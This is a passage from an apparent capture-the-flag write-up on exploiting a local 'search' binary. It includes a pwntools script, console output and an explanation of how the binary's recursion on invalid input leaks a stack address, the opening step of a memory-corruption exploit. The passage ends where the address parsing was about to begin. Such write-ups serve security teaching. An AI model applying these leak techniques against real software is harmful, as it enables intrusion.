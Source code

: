 ``` python
#!/usr/bin/env python2

from pwn import *

context(arch="amd64", os="linux")

p = process('./search-bf61fbb8fa7212c814b2607a81a84adf')
# gdb.attach(p, '''
# ''')

def main():
    p.sendline('A' * 48)
    p.interactive()

if __name__ == '__main__':
    main()
```

You can comment in the `gdb.attach` section when you want to attach `gdb` to the binary.

Running the script gives:

``` console
$ ./solve.py
[+] Starting local process './search-bf61fbb8fa7212c814b2607a81a84adf': Done
[*] Switching to interactive mode
1: Search with a word
2: Index a sentence
3: Quit
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA is not a valid number
```

So no leak. This isn't surprising considering the code isn't storing any data in that location in this particular function. We were hoping to get lucky and leak any previous data stored there, but we can open up GDB and confirm that memory is filled with zeros. Luckily, instead of looping whenever the input is invalid, the binary recurses instead. This means we can shift the stack lower and see if we get lucky somewhere else!

Let's try sending the same string again:

``` console
$ ./solve.py
[+] Starting local process './search-bf61fbb8fa7212c814b2607a81a84adf': Done
[*] Switching to interactive mode
1: Search with a word
2: Index a sentence
3: Quit
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA is not a valid number
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA\xfe\x7f is not a valid number
```

We have a leak! Note that we occassionally get unlucky and have a null byte in the leaked address, but this doesn't happen too often so it isn't a problem. We can now parse out this address using Python:
